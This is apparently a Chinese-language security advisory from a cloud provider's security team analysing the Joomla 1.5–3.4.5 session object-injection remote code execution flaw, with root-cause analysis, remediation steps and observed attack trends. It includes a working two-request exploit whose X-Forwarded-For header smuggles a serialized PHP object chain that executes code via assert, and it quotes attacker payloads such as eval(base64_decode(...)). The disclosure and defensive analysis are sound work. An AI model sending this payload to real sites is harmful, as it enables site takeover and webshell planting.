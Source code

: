 # Joomla 对象注入漏洞分析报告

**Author:阿里云安全攻防对抗团队**

近日，Joomla再曝高危0day漏洞，可进行远程命令执行，阿里云云盾昨日已上线相应的拦截规则抵御该漏洞。同时,对云托管客户已经做了电话通知和自动漏洞修复。统计数据显示，截至16日凌晨，已有数百个恶意IP尝试使用该漏洞对阿里云网站发起攻击，云盾已成功拦截上万次攻击请求，其中攻击请求数排名第一的黑客在一小时内尝试入侵超过1000个 Joomla 网站。

根据此次漏洞情况，Joomla 官方已紧急放出了3.4.6版本。joomla用户除了尽快升级至最新版本，也可采用阿里云安全团队给出的更为完善的修复方案，对网站进行加固，详情可参考：0x03漏洞修复。

0x00 漏洞介绍
=========

* * *

昨日，Joomla 安全团队紧急发布了 Joomla 3.4.6 版本，修复了一个高危 0day 漏洞。该漏洞影响了 1.5 到 3.4.5 的所有版本，漏洞利用无须登录，直接在前台即可执行任意PHP代码。

0x01 漏洞利用
=========

* * *

将恶意代码放在 User-Agent 或 X-Forwarded-For 中发送给网站，将网站返回的cookie值带入第二个请求中，即可触发漏洞。或是在第一个请求中指定cookie值，在第二次中带上同样cookie值也能触发漏洞。

请求一：

```
GET / HTTP/1.1
Host: 127.0.0.1
X-Forwarded-For: }__test|O:21:"JDatabaseDriverMysqli":3:{s:2:"fc";O:17:"JSimplepieFactory":0:{}s:21:"\0\0\0disconnectHandlers";a:1:{i:0;a:2:{i:0;O:9:"SimplePie":5:{s:8:"sanitize";O:20:"JDatabaseDriverMysql":0:{}s:8:"feed_url";s:37:"phpinfo();JFactory::getConfig();exit;";s:19:"cache_name_function";s:6:"assert";s:5:"cache";b:1;s:11:"cache_class";O:20:"JDatabaseDriverMysql":0:{}}i:1;s:4:"init";}}s:13:"\0\0\0connection";b:1;}ð
Cookie: 3342514dde143a04dad958b2eb5a748a=pd4nnqlps2suk9r70189jkpdn2

```

请求二：

```
GET / HTTP/1.1
Host: 127.0.0.1
Cookie: 3342514dde143a04dad958b2eb5a748a=pd4nnqlps2suk9r70189jkpdn2

```

如果执行成功，请求二的返回内容中会显示phpinfo()的执行结果。

0x02 漏洞分析
=========

* * *

在`libraries/joomla/session/session.php`文件中，joomla将`HTTP_USER_AGENT`和`HTTP_X_FORWARDED_FOR`直接存入到了session中

```
……
// Record proxy forwarded for in the session in case we need it later
if (isset($_SERVER['HTTP_X_FORWARDED_FOR']))
{
    $this->set('session.client.forwarded',$_SERVER['HTTP_X_FORWARDED_FOR']);
……
// Check for clients browser
if (in_array('fix_browser', $this->_security) && isset($_SERVER['HTTP_USER_AGENT']))
{
        $browser = $this->get('session.client.browser');
        if ($browser === null)
        {
            $this->set('session.client.browser', $_SERVER['HTTP_USER_AGENT']);
        }
}

```

继续跟进joomla对于session的处理方式，在`/libraries/joomla/session/storage.php`内`JSessionStorage`类中，利用`session_set_save_handler`重新实现了 session 存储的read()和write()方法，从php手册中得定义看到，read()、write()方法传进和传出的参数会分别自动进行序列化和反序列化，这一部分的序列化操作由PHP内核完成：

![enter image description here](http://drops.javaweb.org/uploads/images/23f4e76260e66499a2f898f29e838447a4075ca7.jpg)

继续跟入到read()和write()函数，代码位于`libraries/joomla/session/storage`目录中，从所有session存储引擎的实现代码中可以看到，joomla都没有对 session 的value进行安全处理就进行了写入操作。 默认情况下，joomla使用了数据库引擎对 session 进行存储，这也是本漏洞可以成功利用的条件之一，构造exp时候，利用 Mysql 的字符截断特性，最终写入到数据库中一个被破坏的不合法的反序列化对象，当这个对象被执行read()读取时候，因为截断字符的关系， PHP内核（PHP <= 5.6.13）在解析`session.client.forwarded`后面字符串时，由于长度Check不一致，导致`php_var_unserialize`提前退出，返回false，PHP在上一次`php_var_unserialize`失败的时候，会从之前的指针位置继续开始下一轮key-value尝试，在新一轮key-value尝试中，PHP内核将攻击者注入的"|"当成了分隔符，进行key-value解析，进行反序列化导致对象方法被执行。

漏洞的本质原因有两个，一个是php内核的session解析器bug导致的，另一个是mysql数据库的字符截断特性。如果使用的session存储引擎不存在 Mysql 这样的字符截断特性，此漏洞就无法复现。我们测试该漏洞时，将joomla配置文件`configuration.php`中的`$session_handler`配置为none，即使用文件系统存储session，发现漏洞无法成功利用。

0x03漏洞修复
========

* * *

Joomla 官方已经在昨天紧急放出了3.4.6版本。比对代码后发现，官方此次的升级补丁仅仅在`/libraries/joomla/session/session.php`中删掉了将HTTP_USER_AGENT写入SESSION变量中的代码，增加了对 HTTP_X_FORWARDED_FOR 获取到IP的合法性验证，将此次公开的exp中的利用点修复掉了。但官方没有对JSessionStorage 类中处理session的不安全方式进行修复，因此这个修复方式存在被绕过的可能。只要攻击者寻找到新的可控SESSION值的位置，就可用同样的构造方法触发漏洞。

下面给出更为完善的修复方案：

修改 Joomla 根目录`configuration.php`，把`$session_handler`的值改为none，会将session存储引擎设为文件系统。 把 PHP 版本升到到 5.6.13 或更高的版本。

登录Joomla后台把程序升级到 3.4.6 或更高的版本。

0x04 威胁现状
=========

* * *

统计数据显示，截至16日凌晨，已有数百个恶意IP尝试使用该漏洞对阿里云网站发起攻击，云盾已成功拦截上万次攻击请求，其中攻击请求数排名第一的黑客在一小时内尝试入侵超过1000个 Joomla 网站。

对攻击者使用的攻击payload分析，大部分攻击者在第一个请求中都会插入类似`eval(base64_decode($_post[a]))`这样的代码，在第二个请求中尝试向网站根目录写入一句话木马。如果攻击成功，网站将会被攻击者完全控制。也有部分攻击者使用的是网上公开的漏洞检测payload，如`phpinfo();`和`md5(233333);`，这些代码一般不会对网站造成威胁。

相关链接：

```
https://www.joomla.org/announcements/release-news/5641-joomla-3-4-6-released.html
https://blog.sucuri.net/2015/12/remote-command-execution-vulnerability-in-joomla.html 
https://github.com/80vul/phpcodz/blob/master/research/pch-031.md

```~~~~